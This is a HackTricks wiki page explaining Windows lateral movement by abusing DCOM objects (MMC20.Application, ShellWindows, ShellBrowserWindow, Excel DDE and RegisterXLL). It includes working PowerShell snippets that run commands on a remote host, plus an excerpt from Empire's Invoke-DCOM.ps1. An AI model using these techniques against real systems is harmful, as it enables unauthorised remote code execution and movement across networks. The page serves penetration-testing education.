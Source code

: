 # DCOM Exec

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud)..

</details>

## MMC20.Application

**DCOM** (Distributed Component Object Model) objects are **interesting** due to the ability to **interact** with the objects **over the network**. Microsoft has some good documentation on DCOM [here](https://msdn.microsoft.com/en-us/library/cc226801.aspx) and on COM [here](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). You can find a solid list of DCOM applications using PowerShell, by running `Get-CimInstance Win32_DCOMApplication`.

The [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx) COM object allows you to script components of MMC snap-in operations. While enumerating the different methods and properties within this COM object, I noticed that there is a method named `ExecuteShellCommand` under Document.ActiveView.

![](<../../.gitbook/assets/image (4) (2) (1).png>)

You can read more on that method [here](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). So far, we have a DCOM application that we can access over the network and can execute commands. The final piece is to leverage this DCOM application and the ExecuteShellCommand method to obtain code execution on a remote host.

Fortunately, as an admin, you can remotely interact with DCOM with PowerShell by using “`[activator]::CreateInstance([type]::GetTypeFromProgID`”. All you need to do is provide it a DCOM ProgID and an IP address. It will then provide you back an instance of that COM object remotely:

![](<../../.gitbook/assets/image (665).png>)

It is then possible to invoke the `ExecuteShellCommand` method to start a process on the remote host:

![](<../../.gitbook/assets/image (1) (4) (1).png>)

## ShellWindows & ShellBrowserWindow

The **MMC20.Application** object lacked explicit “[LaunchPermissions](https://technet.microsoft.com/en-us/library/bb633148.aspx)”, resulting in the default permission set allowing Administrators access:

![](<../../.gitbook/assets/image (4) (1) (2).png>)

You can read more on that thread [here](https://twitter.com/tiraniddo/status/817532039771525120).\
Viewing which other objects that have no explicit LaunchPermission set can be achieved using [@tiraniddo](https://twitter.com/tiraniddo)’s [OleView .NET](https://github.com/tyranid/oleviewdotnet), which has excellent Python filters (among other things). In this instance, we can filter down to all objects that have no explicit Launch Permission. When doing so, two objects stood out to me: `ShellBrowserWindow` and `ShellWindows`:

![](<../../.gitbook/assets/image (3) (1) (1).png>)

Another way to identify potential target objects is to look for the value `LaunchPermission` missing from keys in `HKCR:\AppID\{guid}`. An object with Launch Permissions set will look like below, with data representing the ACL for the object in Binary format:

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

Those with no explicit LaunchPermission set will be missing that specific registry entry.

### ShellWindows

The first object explored was [ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx). Since there is no [ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx) associated with this object, we can use the [Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) .NET method paired with the[ Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx) method to instantiate the object via its AppID on a remote host. In order to do this, we need to get the [CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx) for the ShellWindows object, which can be accomplished using OleView .NET as well:

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

As you can see below, the “Launch Permission” field is blank, meaning no explicit permissions are set.

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

Now that we have the CLSID, we can instantiate the object on a remote target:

```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```

![](https://enigma0x3.files.wordpress.com/2017/01/remote\_instantiation\_shellwindows.png?w=690\&h=354)

With the object instantiated on the remote host, we can interface with it and invoke any methods we want. The returned handle to the object reveals several methods and properties, none of which we can interact with. In order to achieve actual interaction with the remote host, we need to access the [WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx) method, which will give us back an object that represents the Windows shell window:

```
$item = $obj.Item()
```

![](https://enigma0x3.files.wordpress.com/2017/01/item\_instantiation.png?w=416\&h=465)

With a full handle on the Shell Window, we can now access all of the expected methods/properties that are exposed. After going through these methods, **`Document.Application.ShellExecute`** stood out. Be sure to follow the parameter requirements for the method, which are documented [here](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745\(v=vs.85\).aspx).

```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellwindows\_command\_execution.png?w=690\&h=426)

As you can see above, our command was executed on a remote host successfully.

### ShellBrowserWindow

This particular object does not exist on Windows 7, making its use for lateral movement a bit more limited than the “ShellWindows” object, which I tested on Win7-Win10 successfully.

Based on my enumeration of this object, it appears to effectively provide an interface into the Explorer window just as the previous object does. To instantiate this object, we need to get its CLSID. Similar to above, we can use OleView .NET:

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

Again, take note of the blank Launch Permission field:

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

With the CLSID, we can repeat the steps taken on the previous object to instantiate the object and call the same method:

```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellbrowserwindow\_command\_execution.png?w=690\&h=441)

As you can see, the command successfully executed on the remote target.

Since this object interfaces directly with the Windows shell, we don’t need to invoke the “ShellWindows.Item” method, as on the previous object.

While these two DCOM objects can be used to run shell commands on a remote host, there are plenty of other interesting methods that can be used to enumerate or tamper with a remote target. A few of these methods include:

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE & RegisterXLL

In a similar way it's possible to move laterally abusing DCOM Excel objects, for more information read [https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)

```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```

## Tool

The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.

## References

* The first method was copied from [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/), for more info follow the link
* The second section was copied from [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/), for more info follow the link

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
